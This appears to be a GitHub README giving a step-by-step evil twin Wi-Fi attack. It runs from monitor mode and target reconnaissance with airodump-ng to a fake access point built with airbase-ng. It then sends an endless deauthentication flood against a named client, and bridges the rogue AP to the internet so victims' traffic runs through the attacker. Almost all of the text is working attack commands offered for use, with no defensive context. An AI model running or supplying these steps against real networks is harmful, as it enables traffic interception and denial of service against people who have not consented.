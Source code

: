# Evil-Twin-Attack

1. Prerequisites
apt-get update	
apt-get upgrade
             apt-get install bridge-utils
2. Creating the Environment
I) Start the Wireless monitoring Interface on wlan0
Ifconfig -> to check wlan name
airmon-ng start wlan0  
-> Start monitor mode on the wlan0.
airodump-ng wlan0mon 
-> to see what is out there wirelessly and channels they are using.
	
airodump-ng --bssid 74:DA:88:BF:4C:BA -c 11 wlan0mon
	-> To monitor the target AP and the channel it provides service through.
II) Make a fake Access Point (Evil Twin)
airbase-ng --essid “TP-Link-WiFi-Free” -c 11 wlan0mon
	-> Starts our fake ap with name “TP-Link-WiFi-Free” with Wi-Fi channel 11.
III) Launching a Deauth Attack
              aireplay-ng --deauth 0 -a 74:DA:88:BF:4C:BA -c 4E:74:16:2D:80:FC wlan0mon.
		-> Here, --deauth 0 means that frames were sent in an endless loop.
                             -> -a defines BSSID of the real AP.
                             -> -c defines MAC of our device that we want to shoot down the connection.
IV) Bridge Interface of Devices to Connect to the Internet
	brctl addbr evil
		-> This command adds a new bridge named “evil”.
	brctl addif evil at0
	brctl addif evil eth0
		-> Bridging the two interfaces at0 and eth0 with the evil interface.
	ifconfig at0 0.0.0.0 up
	ifconfig evil up
		-> Turning on all the new interfaces with the above commands.
	dhclient evil
		-> Using this command, we autoconfigure the DHCP settings on our Wi-Fi adapter.
